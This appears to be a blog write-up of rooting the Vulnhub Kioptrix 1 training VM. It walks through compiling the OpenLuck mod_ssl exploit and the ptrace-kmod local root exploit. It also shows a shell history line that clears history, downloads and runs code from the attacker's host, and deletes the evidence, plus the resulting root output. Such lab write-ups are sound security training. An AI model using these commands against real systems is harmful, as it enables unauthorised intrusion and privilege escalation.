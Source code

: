 ```yaml
---
layout: post
title: Vulnhub - Kioptrix 1
---
```


## Setup
DHCP Server assigns VM the IP: 10.10.10.4
```
$ git clone https://github.com/heltonWernik/OpenLuck /opt/OpenLuck
$ cd $_
$ mv OpenFuck.c LuckLocal.c # for courtesy ;)
$ gedit LuckLocal.c
```
Minor edits to LuckLocal.c, which you can see in my [OpenLuckLocal repo](https://github.com/zacheller/kioptrix_1_scripts)
```
$ apt install libc6-dev-i386
$ gcc LuckLocal.c -o open -lcrypto
$ wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
$ gedit ptrace-kmod.c # needed to edit some includes to run on Kioptrix
```
Minor edits to ptrace-kmod.c, which you can see in my [Kioptrix 1 scripts repo](https://github.com/zacheller/kioptrix_1_scripts).

## Exploitation
```
$ python -m SimpleHTTPServer &

$ ./open 0x6b 10.10.10.4 -c 60

bash-2.05$ history
    1  unset HISTFILE; cd /tmp; wget http://10.10.10.2:8000/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; 
```
I fixed the ptrace-kmod.c file here by lots of attempts to compile on the remote machine. Now, simply the ./open will get root.
```
bash-2.05$ !1
unset HISTFILE; cd /tmp; wget http://10.10.10.2:8000/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; 
--23:57:20--  http://10.10.10.2:8000/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to 10.10.10.2:8000... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,998 [text/plain]

    0K ...                                                   100% @   3.81 MB/s

23:57:20 (3.81 MB/s) - `ptrace-kmod.c' saved [3998/3998]

[+] Attached to 1683
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
```
We have a shell, but do we have root?
``` bash
whoami
root
cd /var/mail/
cat root
```
Solved:
```
From root  Sat Sep 26 11:42:10 2009
Return-Path: <root@kioptix.level1>
Received: (from root@localhost)
        by kioptix.level1 (8.11.6/8.11.6) id n8QFgAZ01831
        for root@kioptix.level1; Sat, 26 Sep 2009 11:42:10 -0400
Date: Sat, 26 Sep 2009 11:42:10 -0400
From: root <root@kioptix.level1>
Message-Id: <200909261542.n8QFgAZ01831@kioptix.level1>
To: root@kioptix.level1
Subject: About Level 2
Status: O

If you are reading this, you got root. Congratulations.
Level 2 won't be as easy...

From root  Fri Jan 24 20:08:43 2020
Return-Path: <root@kioptrix.level1>
Received: (from root@localhost)
        by kioptrix.level1 (8.11.6/8.11.6) id 00P18hU01043
        for root; Fri, 24 Jan 2020 20:08:43 -0500
Date: Fri, 24 Jan 2020 20:08:43 -0500
From: root <root@kioptrix.level1>
Message-Id: <202001250108.00P18hU01043@kioptrix.level1>
To: root@kioptrix.level1
Subject: LogWatch for kioptrix.level1



 ################## LogWatch 2.1.1 Begin ##################### 


 ###################### LogWatch End ######################### 

From root  Mon Jan cat root
27 23:27:06 2020
Return-Path: <root@kioptrix.level1>
Received: (from root@localhost)
        by kioptrix.level1 (8.11.6/8.11.6) id 00S4R6f01127
        for root; Mon, 27 Jan 2020 23:27:06 -0500
Date: Mon, 27 Jan 2020 23:27:06 -0500
From: root <root@kioptrix.level1>
Message-Id: <202001280427.00S4R6f01127@kioptrix.level1>
To: root@kioptrix.level1
Subject: LogWatch for kioptrix.level1



 ################## LogWatch 2.1.1 Begin ##################### 


 ###################### LogWatch End ######################### 

From root  Thu Jan 30 21:15:34 2020
Return-Path: <root@kioptrix.level1>
Received: (from root@localhost)
        by kioptrix.level1 (8.11.6/8.11.6) id 00V2FYk01102
        for root; Thu, 30 Jan 2020 21:15:34 -0500
Date: Thu, 30 Jan 2020 21:15:34 -0500
From: root <root@kioptrix.level1>
Message-Id: <202001310215.00V2FYk01102@kioptrix.level1>
To: root@kioptrix.level1
Subject: LogWatch for kioptrix.level1



 ################## LogWatch 2.1.1 Begin ##################### 


 ###################### LogWatch End #######################cat root
## 

From root  Thu Jan 30 21:15:43 2020
Return-Path: <root@kioptrix.level1>
Received: (from root@localhost)
        by kioptrix.level1 (8.11.6/8.11.6) id 00V2Fhw01285
        for root; Thu, 30 Jan 2020 21:15:43 -0500
Date: Thu, 30 Jan 2020 21:15:43 -0500
Message-Id: <202001310215.00V2Fhw01285@kioptrix.level1>
From: root@kioptrix.level1 (Anacron)
To: root@kioptrix.level1
Subject: Anacron job 'cron.daily'

/etc/cron.daily/00webalizer:

Warning: Truncating oversized request field
[... skip ...]
Warning: Truncating oversized request field [36608]
Warning: Truncating oversized request field [36609]
```

## Vulnerabilities
### Default Web Page (Low)
![Default Web Page]({{ site.baseurl }}/images/kioptrix/default.png)
### Server Header Info Disclosure (Low)
ETag is an information disclosure.
![Server Header]({{ site.baseurl }}/images/kioptrix/header.png)

### Default 404 Info Disclosure (Low)
![Default 404]({{ site.baseurl }}/images/kioptrix/404.png)
### Weak Ciphers
```
$ nmap --script=ssl-enum-ciphers -p 443 10.10.10.4
```
![Weak Ciphers]({{ site.baseurl }}/images/kioptrix/weak_ciphers.png)


